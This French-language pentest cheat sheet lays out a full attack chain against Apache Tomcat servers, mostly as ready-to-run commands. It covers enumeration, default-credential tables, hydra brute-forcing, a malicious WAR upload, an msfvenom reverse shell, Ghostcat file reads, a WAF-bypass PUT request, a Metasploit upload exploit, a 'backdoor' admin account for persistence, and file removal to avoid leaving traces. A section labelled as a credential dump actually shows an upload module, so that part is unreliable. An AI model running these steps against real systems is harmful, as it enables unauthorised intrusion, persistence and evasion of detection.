

La chaîne d'attaque typique pour l'exploitation d'Apache Tomcat repose sur l'énumération des services, l'accès aux interfaces d'administration et le déploiement de fichiers malveillants.



## Détection et Énumération

### Empreinte de service
L'identification de la version et du service s'effectue via les headers HTTP ou des requêtes sur des chemins inexistants.

```bash
curl -I http://TARGET:8080/
curl -i http://TARGET:8080/invalid
```

### Outils d'énumération
L'utilisation de **nmap** et **gobuster** permet d'identifier les répertoires et les scripts vulnérables.

```bash
nmap -p 8080 --script http-enum,http-title,http-headers,http-robots.txt TARGET
gobuster dir -u http://TARGET:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

### Chemins sensibles
| URL | Contenu attendu |
| :--- | :--- |
| `/docs/` | Documentation Tomcat |
| `/examples/` | Exemples JSP |
| `/manager/html` | Console d’administration |
| `/host-manager/html` | Gestion des hôtes |
| `/webapps/` | Répertoire racine |

> [!warning] Risque : L'utilisation de credentials par défaut est une cible prioritaire en phase d'énumération.

## Credentials et Accès

### Authentification par défaut
Les accès par défaut doivent être testés systématiquement.

| Username | Password | Rôle |
| :--- | :--- | :--- |
| `admin` | `admin` | manager-gui, admin-gui |
| `tomcat` | `tomcat` | manager-gui |
| `both` | `tomcat` | admin-gui, manager-gui |

### Brute-force
L'outil **hydra** permet de tester les credentials sur l'interface de gestion.

```bash
hydra -L users.txt -P rockyou.txt TARGET http-get /manager/html
```

## Exploitation

### Upload de fichiers WAR
La création d'un fichier **WAR** nécessite une structure de répertoire spécifique.

> [!warning] Prérequis : La création d'un fichier WAR nécessite une structure de répertoire spécifique (WEB-INF/web.xml).

```bash
mkdir -p shell/WEB-INF
cp shell.jsp shell/
touch shell/WEB-INF/web.xml
jar -cvf shell.war -C shell/ .
```

> [!danger] Attention : L'upload de fichiers WAR peut être bloqué par des politiques de sécurité ou des WAF.

### Reverse Shell
Utilisation de **msfvenom** pour générer une charge utile Java.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=4444 -f war > shell.war
nc -lnvp 4444
```

### Vulnérabilités connues
Les CVE majeures permettent souvent de contourner l'authentification ou d'exécuter du code arbitraire.

| CVE | Description |
| :--- | :--- |
| **CVE-2017-12615** | Upload de fichier JSP via PUT |
| **CVE-2020-1938** | Ghostcat – LFI via AJP |
| **CVE-2019-0232** | RCE via cmd.exe sur Windows |

> [!danger] Critique : La vulnérabilité Ghostcat (CVE-2020-1938) permet une lecture de fichiers arbitraires via le protocole AJP.

```bash
nmap -p 8009 --script ajp-* TARGET
python2.7 tomcat-ajp.lfi.py TARGET -p 8009 -f WEB-INF/web.xml
```

### Analyse des configurations de sécurité (Security Manager)
Le **Security Manager** de Java peut restreindre les capacités d'exécution de code. Il est crucial de vérifier s'il est activé dans `catalina.policy`.

```bash
# Vérification de la présence de la propriété de sécurité
cat bin/catalina.sh | grep -i "security"
```

### Techniques de bypass WAF/IDS
En cas de blocage lors de l'upload, le bypass peut être tenté par l'encodage ou la fragmentation de la requête.

```bash
# Utilisation de double encodage URL pour le chemin
curl -v -X PUT http://TARGET:8080/%25%35%37EB-INF/web.xml --data-binary @web.xml
```

### Post-exploitation spécifique à Tomcat (dump de credentials en mémoire)
Si un accès administrateur est obtenu, il est possible d'extraire les sessions ou les credentials stockés en mémoire via des outils comme **Metasploit Framework** (module `tomcat_mgr_upload`).

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS TARGET
set TARGETURI /manager
exploit
```

### Persistance via Tomcat
La persistance peut être assurée en déployant un fichier **WAR** malveillant nommé `ROOT.war` qui écrase l'application par défaut, ou en modifiant `server.xml` pour ajouter un utilisateur administrateur persistant.

```xml
<!-- Exemple d'ajout dans tomcat-users.xml -->
<user username="backdoor" password="password123" roles="manager-gui,admin-gui"/>
```

## Fichiers critiques
La configuration de **Tomcat** est centralisée dans plusieurs fichiers clés :

| Chemin | Fonction |
| :--- | :--- |
| `/conf/tomcat-users.xml` | Authentification |
| `/conf/web.xml` | Définition des servlets |
| `/webapps/ROOT/WEB-INF/web.xml` | Descripteur de déploiement |
| `/logs/` | Logs du serveur |

Ces éléments sont essentiels pour une phase de post-exploitation ou de pivotement, souvent liés aux concepts de **Webshells** et de **Reverse Shell** documentés dans les bases de connaissances de **Metasploit Framework** et la note sur **Enumeration**.

## Nettoyage
Il est impératif de supprimer les fichiers déployés (fichiers .war, shells JSP) pour ne pas laisser de traces.

```bash
# Suppression via l'interface manager ou manuellement
rm /opt/tomcat/webapps/shell.war
rm -rf /opt/tomcat/webapps/shell
```